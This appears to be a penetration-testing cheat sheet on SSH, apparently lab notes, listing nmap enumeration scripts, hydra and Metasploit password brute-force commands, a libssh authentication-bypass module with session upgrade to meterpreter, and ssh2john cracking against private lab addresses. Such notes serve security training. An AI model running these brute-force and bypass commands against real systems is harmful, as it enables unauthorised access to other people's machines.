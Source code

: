 # Table of Contents
1. [Overview](#Overview)
	1. Ports
	3. Usage
	4. Related Services
2. [Tools](#Tools)
	1. netcat
	2. [nmap](#nmap)
	3. [hydra](#hydra)
	4. [msfconsole](#msfconsole)
	5. ssh2john

---

# Overview
SSH - Secure Shell

Used to connect to securely connect to remote machines.

## #Ports
- 22 : main port

## Related Services
- vFTP

## Usage
`ssh -p 22 user@192.168.4.3`

---

# #Tools
## netcat
`nc 192.168.13.3 22` 
- grabs banner

---

## #nmap
- --script
	- ssh2-enum-algos
		- shows key algorithms
	- ssh-hostkey 
		- --script-args ssh_hostkey=full
	- ssh-auth-methods
		- can check if user has no password set
		- --script-args="ssh.user=admin"
	- ssh-brute --script-args userdb=/userlist
		- args : userdb, passdb, timeout
		- has its own wordlist
	- ssh-run 
		- `--script-args"username=student,password="",cmd=ls"`

---

## #hydra
dictionary attack
`hydra -l student -P /usr/share/wordlist/rockyou.txt 192.168.7.3 ssh`

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt \
-P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt \
192.168.7.3 -t 4 ssh 
```

---

## #msfconsole
- use auxiliary/scanner/ssh/ssh_login
	- options
	- set rhosts 192.26.34.2
	- set userpass_file /usr/share/wordlists/metaslpoit/root_userpass.txt
	- set STOP_ON_SUCCESS true
	- set verbose true
	- run

### Example
1. `search libssh` : service "protocol 2.0"  module
2. `use auxiliary/scanner/ssh/libssh_auth_bypass`
	1. `set rhosts` : set target
	2. `set SPAWN_PTY true` : set flag to spawn session
	3. ctrl-z : background session
3. `sessions -u 1` : upgrade to meterpreter

### Userful Modules
- auxiliary/scanner/ssh/ssh_version
- auxiliary/scanner/ssh/ssh_login

---

## ssh2john
1. `ssh2john > hash`
2. `john -w wordlist/rockyou.txt hash`
